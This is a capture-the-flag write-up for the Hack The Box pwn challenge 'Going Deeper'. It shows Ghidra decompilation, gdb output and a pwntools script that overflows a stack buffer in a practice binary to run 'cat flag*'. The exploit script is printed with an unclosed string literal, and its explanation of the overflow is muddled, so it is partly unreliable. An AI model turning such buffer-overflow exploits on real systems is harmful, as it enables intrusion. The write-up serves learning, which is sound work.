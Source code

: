#HTB PWN: Going Deeper

###Tools: Ghidra, Python

###Vulnerability: Stack Overflow

###Description: We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?

Alright this was one of the first PWN that I have ever done and I could not have got as far as I did without some help with python scripting.

From the decompilation of admin_panel in Ghidra we can see that if we can get the printf function to spit out welcome admin then the system will cat the flag.txt file. This was not a simple find and decipher password as I had thought after moving over from reverse engineering and was kind of surprised. This flag can only be captured by performing a buffer overflow.
Upon closer inspection on line 27 we can see there is a read function with 0x39 (57 decimals) meaning this line can read a total of 57 chars. However on line 29 strncmp will only accept 52 chars. This is where we can do our buffer overflow.


```cs
void admin_panel(long param_1,long param_2,long param_3)

{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```


Before we move on we need one last thing. If we use gdb on the file and then info func we can find the system call that will cat the flag. ( This is listed on line 36 in the decompiler)

```scala
pwndbg> info func
All defined functions:

Non-debugging symbols:
0x00000000004006b8  _init
0x00000000004006e0  strncmp@plt
0x00000000004006f0  puts@plt
0x0000000000400700  system@plt
0x0000000000400710  printf@plt
0x0000000000400720  alarm@plt
0x0000000000400730  read@plt
0x0000000000400740  srand@plt
0x0000000000400750  time@plt
0x0000000000400760  setvbuf@plt
0x0000000000400770  strtoul@plt
0x0000000000400780  exit@plt
0x0000000000400790  rand@plt
0x00000000004007a0  _start
0x00000000004007d0  _dl_relocate_static_pie
0x00000000004007e0  deregister_tm_clones
0x0000000000400810  register_tm_clones
0x0000000000400850  __do_global_dtors_aux
0x0000000000400880  frame_dummy
0x0000000000400887  read_num
0x00000000004008dd  banner
0x000000000040099c  setup
0x00000000004009e9  admin_panel
0x0000000000400b47  main
0x0000000000400ba0  __libc_csu_init
0x0000000000400c10  __libc_csu_fini
0x0000000000400c14  _fini
pwndbg> disassemble system
Dump of assembler code for function system@plt:
   0x0000000000400700 <+0>:	jmp    QWORD PTR [rip+0x20189a]        # 0x601fa0 <system@got.plt>
   0x0000000000400706 <+6>:	push   0x2
   0x000000000040070b <+11>:	jmp    0x4006d0
End of assembler dump.
pwndbg> 
```




Listed here is what I wrote to print the flag. You can see the system call we just recieved from gdb and the string of code we are going to send with a null byte included to cause our buffer overflow. Voila we have the flag!
```python
#!/usr/bin/python3
from pwn import *

context(os='linux', arch='amd64')
libc = ELF('/home/htb-0xrogue/Downloads/challenge/glibc/libc.so.6')
e = ELF('sp_going_deeper')
context.binary = e
p = e.process()
#p = remote("", )
#junk = b"DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ftA\x00"
system_call = p64(0x400700)
p.sendline(b"2")
#p.recvline()
#payload = junk + system_call
#raw_input()
#p.sendline(payload)
p.sendline("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ftA\x00)
p.recvline()
p.interactive()
```
Summary: Definitely not what I was ready for and I got a crash course in buffer overflow and how to spot it. Some of the code in the Python script is leftover from the challenge and it was required to establish a tcp connection to launch the binary.

#NOTE: THIS IS FOR THE CTF VERSION OF THE BINARY!!!

